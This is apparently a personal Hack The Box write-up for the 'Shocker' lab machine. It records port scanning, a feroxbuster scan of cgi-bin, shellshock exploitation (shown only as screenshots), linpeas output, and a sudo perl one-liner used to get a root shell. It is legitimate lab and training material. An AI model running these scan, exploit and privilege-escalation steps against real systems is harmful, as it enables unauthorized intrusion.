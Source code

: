 After a port scan, there are only 2 ports exposed
- 2222: ssh
- 80: apache webserver

# Enumeration
## What does it do?
I've only been able to see the homepage `index.html` which appears to be a static page with a picture of a bug about to squash itself.

There is an ETag: `"89-559ccac257884"` but it doesn't seem to decode to anything useful.



## What language is it written in?
403 errors on aspx, asp, jsp, php.

## What server software is the application running on?
Apache httpd 2.4.18 ((Ubuntu))



# Walkthrough
I peaked at the walkthrough because I was lost.
No shocker - this machine was built to practice shellshock
On apache, the `cgi-bin` folder contains scripts. The scripts are accessed via web, run server side, then returned with an HTTP reply. Shellshock provides input that hijacks the server-side shell run.

I also saw in the walkthrough that the target script is `/cgi-bin/user.sh`. But I want to prove this with a scan.

# Exploiting shellshock
Found a shellshock endpoint by running
```bash
feroxbuster -u http://10.10.10.56:80/cgi-bin/ -t 10 -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -x "sh" -v -k -n -o /home/nate/hackthebox/shocker/results/scans/tcp80/tcp_80_http_feroxbuster_cgi-bin.txt
```
![[Pasted image 20220106200355.png]]


Now to exploit it.
![[Pasted image 20220106200636.png]]

![[Pasted image 20220106202024.png]]

![[Pasted image 20220106204959.png]]

I was able to get user.txt but not enough privs for root.txt

### Linpeas findings
`Sudo 1.8.16`
```
╔══════════╣ Executing Linux Exploit Suggester 2                                                                                 ╚ https://github.com/jondonas/linux-exploit-suggester-2                                                                            [1] af_packet                                                                                                                        CVE-2016-8655                                                                                                                    Source: http://www.exploit-db.com/exploits/40871                                                                             [2] exploit_x                                                                                                                        CVE-2018-14665                                                                                                                   Source: http://www.exploit-db.com/exploits/45697                                                                             [3] get_rekt                                                                                                                         CVE-2017-16695                                                                                                                   Source: http://www.exploit-db.com/exploits/45010
```

```
╔══════════╣ Checking 'sudo -l', /etc/sudoers, and /etc/sudoers.d                                                                ╚ https://book.hacktricks.xyz/linux-unix/privilege-escalation#sudo-and-suid                                                      Matching Defaults entries for shelly on Shocker:                                                                                     env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin                                                                                                                                             User shelly may run the following commands on Shocker:                                                                               (root) NOPASSWD: /usr/bin/perl 
```

Might be able to use the following from GTFO bins to get root.
```
sudo perl -e 'exec "/bin/sh";'
```

![[Pasted image 20220106210114.png]]

`52c2715605d70c7619030560dc1ca467`